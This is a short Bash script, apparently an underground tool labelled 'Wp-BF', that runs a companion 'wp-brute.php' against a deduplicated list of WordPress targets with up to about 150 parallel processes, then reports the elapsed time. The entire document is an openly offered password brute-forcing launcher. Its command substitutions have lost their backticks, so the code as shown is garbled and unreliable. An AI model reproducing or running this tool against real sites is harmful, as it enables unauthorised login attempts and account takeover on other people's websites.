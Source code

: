 // by r00ter | tornetwork@exploit.im

datainicial=date +%s echo "Wp-BF by n4sss. Multithread on" echo "Wait the brute in the background :D "

cat $1 | sort | uniq > mfu.txt CONTOR=0 for i in cat mfu.txt do CONTOR=ps aux | grep -c php

while [ $CONTOR -ge 150 ];do CONTOR=ps aux | grep -c php echo "Sleeping" sleep 5 done

if [ $CONTOR -le 150 ]; then php wp-brute.php $i > /dev/null & fi

done datafinal=date +%s soma=expr $datafinal - $datainicial resultado=expr 10800 + $soma tempo=date -d @$resultado +%H:%M:%S echo " Tempo gasto: $tempo "
